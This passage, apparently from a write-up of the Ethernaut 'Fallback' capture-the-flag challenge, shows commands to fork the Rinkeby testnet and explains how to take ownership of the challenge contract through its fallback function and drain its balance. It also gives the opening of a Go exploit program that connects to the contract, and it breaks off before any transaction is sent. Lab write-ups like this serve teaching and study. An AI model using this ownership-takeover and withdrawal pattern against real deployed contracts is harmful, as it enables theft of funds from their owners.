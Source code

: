 ```bash
npx hardhat node --fork https://eth-rinkeby.alchemyapi.io/v2/<APIKEY>
#or
anvil --fork-url https://eth-rinkeby.alchemyapi.io/v2/<APIKEY>
```

# Exploitation

To validate the challenge, there are two steps:

1. you claim ownership of the contract
2. you reduce its balance to 0

The exploitation is straightforward, the fallback function can be called to update the owner of the contract and then the `withdraw()` function to reduce the balance of the contract to 0. Before calling the fallback function, we need to have contribute to have more than 0 in the contributions balance.

```go
package main

import (
	"context"
	"crypto/ecdsa"
	"flag"
	"fmt"
	"log"
	"math/big"

	store "ethernaut-golang/ethernautChallenges/1-Fallback"

	"github.com/ethereum/go-ethereum/accounts/abi/bind"
	"github.com/ethereum/go-ethereum/common"
	"github.com/ethereum/go-ethereum/core/types"
	"github.com/ethereum/go-ethereum/crypto"
	"github.com/ethereum/go-ethereum/ethclient"
)

var fork bool

func main() {
	var blockchainURL, contractAddress, privateKey string
	flag.BoolVar(&fork, "fork", true, "Should we use the parameter for the fork blockchain ? (default: true)")
	flag.Parse()
	contractAddress = "0xbc81037C99ECAabf115405b76AE630AB2e753EfA"
	if fork {
		blockchainURL = "http://127.0.0.1:8545"
		privateKey = "ac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80"
	} else {
		blockchainURL = "https://eth-rinkeby.alchemyapi.io/v2/<API-KEY>"
		privateKey = "<private key>"

	}
	// Connect to the node
	client, err := ethclient.Dial(blockchainURL)
	if err != nil {
		log.Fatal(err)
	}

	// Contract
	contractAddressHash := common.HexToAddress(contractAddress)
	instance, err := store.NewFallback(contractAddressHash, client)
	if err != nil {
		log.Fatal(err)
```